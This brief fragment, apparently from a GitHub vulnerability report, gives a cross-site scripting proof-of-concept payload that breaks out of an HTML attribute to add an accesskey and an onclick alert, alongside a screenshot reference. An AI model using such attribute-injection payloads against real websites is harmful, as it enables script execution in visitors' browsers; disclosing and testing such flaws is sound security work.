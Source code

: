 Payload used: `?%27accesskey=%27x%27onclick=%27alert(1)`

<img width="1920" height="896" alt="image" src="https://github.com/user-attachments/assets/7620f7ee-a0a0-4c66-8310-896525d7ff00" />

